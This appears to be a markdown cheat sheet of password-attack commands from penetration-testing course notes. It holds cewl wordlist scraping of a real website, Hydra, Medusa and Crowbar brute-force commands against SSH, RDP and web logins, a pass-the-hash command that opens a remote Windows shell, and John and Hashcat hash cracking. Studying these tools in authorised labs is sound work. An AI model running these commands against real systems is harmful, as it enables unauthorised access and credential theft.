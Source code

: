 ### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cryptography
> $1$: MD5-based crypt ('md5crypt')  
> $2$: Blowfish-based crypt ('bcrypt')[^bcrypt]  
> $sha1$: SHA-1-based crypt ('sha1crypt')  
> $5$: SHA-256-based crypt ('sha256crypt')  
> $6$: SHA-512-based crypt ('sha512crypt')  

md5sum plain-text, sha1sum plain-text, sha256sum plain-text, sha512sum plain-text  
> https://crackstation.net/ (unsalted hash crack)  
###### Generate salted hash
mkpasswd -m sha512crypt foobar -S "M3vwJPAueK2a1vNM"

###### Symmetric
gpg -c --cipher-algo blowfish blowfish.plain  
gpg --decrypt blowfish.plain.gpg  
gpg -c --cipher-algo aes256 aes256.plain  
gpg --decrypt aes256.plain.gpg

###### Asymmetric 
> https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html  

gpg --gen-key(enter realname--Offsec and email--test@example.com for identification)  
gpg --output example-pub.asc --armor --export Offsec  
gpg --recipient Offsec --encrypt plain.txt  
gpg --decrypt plain.txt.gpg  
gpg --import melanie-private.asc  
gpg --decrypt decrypt-me.gpg(need to enter passphrase)  

###### John the ripper
john --wordlist=rockyou.txt hash  
john -form=dynamic='sha1(md5(sha512($p.$s).$p).$s)' --wordlist=rockyou.txt hash  
john --wordlist=rockyou.txt user_shadow_hash($6$VvN1wBiLLmqWtRXY$oPzxsQbXqdzIISj5NzmKeiUcfXGvFJzqi9YFCzOtdOOI4yOqXm.UBiP7oLeDH8kZUgCtwBwY.YcbqVx7RWlj51)  
john hash.txt --format=NT  
>We have two machines, each with an 8-core CPU. On the first machine we would set the --fork=8 and --node=1-8/16 options, instructing John to create eight processes on this machine, split the supplied wordlist into sixteen equal parts, and process the first eight parts locally. On the second machine, we could use --fork=8 and --node=9-16 to assign eight processes to the second half of the wordlist.

###### John crack shadow file
unshadow passwd.txt shadow.txt > unshadowed.txt  
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt  

### Hashcat
```
hashcat -a 0(dictionary) -m 13000 hash wordlist
```
###### Combine each char set(114) with each number(1000) = 114000
```
/usr/lib/hashcat-utils/combinator.bin flag2.txt numbers.txt > hash.txt
```
